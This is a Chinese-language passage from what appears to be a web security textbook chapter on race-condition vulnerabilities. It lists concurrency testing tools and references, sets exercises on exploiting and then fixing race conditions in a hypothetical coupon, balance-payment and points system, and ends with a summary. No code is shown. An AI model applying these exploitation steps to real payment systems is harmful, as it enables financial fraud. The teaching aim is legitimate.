| Python Threading | 自定义并发测试 | ★★★★☆ |
| JMeter | 负载测试 | ★★★★☆ |
| wrk | 高性能HTTP测试 | ★★★★☆ |

#### 学习资源

1. OWASP Testing Guide - Testing for Race Conditions
2. CWE-362: Concurrent Execution Using Shared Resource with Improper Synchronization
3. NIST SP 800-53: Security and Privacy Controls

---

### 27.8.13 实战演练

#### 练习一：基础竞态测试

**目标**：使用提供的PoC代码，测试一个假设的优惠券系统

**步骤**：
1. 搭建测试环境
2. 执行基础竞态测试
3. 分析测试结果
4. 撰写漏洞报告

#### 练习二：深度利用

**目标**：扩展测试到余额支付和积分兑换

**步骤**：
1. 修改测试脚本支持多种场景
2. 测试余额支付竞态
3. 测试积分兑换竞态
4. 分析组合利用的可能性

#### 练习三：防御验证

**目标**：验证提供的防御方案是否有效

**步骤**：
1. 实施防御方案
2. 重新执行测试
3. 验证漏洞是否已修复
4. 评估防御方案的性能影响

---

**本案例小结**：

竞态条件是Web安全中一类重要且常见的漏洞，特别是在涉及资金安全的业务场景中。本案例通过完整的发现、利用、报告和防御流程，展示了竞态条件漏洞的全貌。关键要点包括：

1. **理论理解**：竞态条件的本质是并发操作的时序依赖性
2. **测试方法**：多线程并发测试是发现竞态条件的关键
3. **影响评估**：必须量化漏洞的影响，包括经济损失和业务影响
4. **防御方案**：选择合适的防御方案需要平衡安全性、性能和复杂度
5. **持续改进**：竞态条件防护是一个持续的过程，需要不断优化

掌握竞态条件的发现和防御技巧，对于提升Web应用的安全性具有重要意义。在实际的安全研究中，建议结合自动化测试框架，提高测试效率和覆盖率。
